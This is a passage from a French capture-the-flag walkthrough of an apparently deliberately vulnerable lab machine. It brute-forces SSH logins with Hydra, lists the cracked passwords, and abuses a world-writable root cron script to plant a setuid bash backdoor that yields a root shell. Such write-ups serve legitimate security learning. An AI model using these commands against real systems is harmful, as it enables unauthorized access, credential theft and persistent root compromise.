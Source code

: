 Je pars à l'attaque :

```console
$ hydra -u -e nsr -L smb_users.txt -P rockyou.txt ssh://192.168.56.227
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 430331520 login tries (l:30/p:14344384), ~26895720 tries per task
[DATA] attacking ssh://192.168.56.227:22/
[22][ssh] host: 192.168.56.227   login: SHayslett   password: SHayslett
[22][ssh] host: 192.168.56.227   login: Drew   password: qwerty
```

Le premier compte cassé est suffisant pour la suite de nos aventures, mais avec beaucoup de temps devant vous d'autres comptes peuvent tomber :

```
cookie           (JBare)     
letmein          (MFrei)     
1password        (CCeaser)     
password11       (SStroud)     
red              (jamie)     
robrob           (RNunemaker)
```

Je remarque sur le système un fichier appartenant à root qui est modifiable par tout le monde... Et il est visiblement lié à la crontab :

```console
SHayslett@red:~$ find / -user root -type f -writable -ls 2> /dev/null  | grep -v /proc | grep -v /sys
    48438      4 -rwxrwxrwx   1 root     root           51 Jun  3  2016 /usr/local/sbin/cron-logrotate.sh
SHayslett@red:~$ cat /usr/local/sbin/cron-logrotate.sh
#Simon, you really need to-do something about this
```

Je place mes commandes dedans afin qu'il génère une backdoor setuid puis j'attends un moment :

```console
SHayslett@red:~$ echo -e '#!/bin/bash\ncp /bin/bash /tmp/backdoor\nchmod 4755 /tmp/backdoor' > /usr/local/sbin/cron-logrotate.sh
SHayslett@red:~$ ls -l /tmp/
total 1084
-rwsr-xr-x 1 root root 1109520 May 31 23:45 backdoor
SHayslett@red:~$ /tmp/backdoor -p
backdoor-4.3# id
uid=1005(SHayslett) gid=1005(SHayslett) euid=0(root) groups=1005(SHayslett)
backdoor-4.3# cd /root
backdoor-4.3# ls
fix-wordpress.sh  flag.txt  issue  python.sh  wordpress.sql
backdoor-4.3# cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
```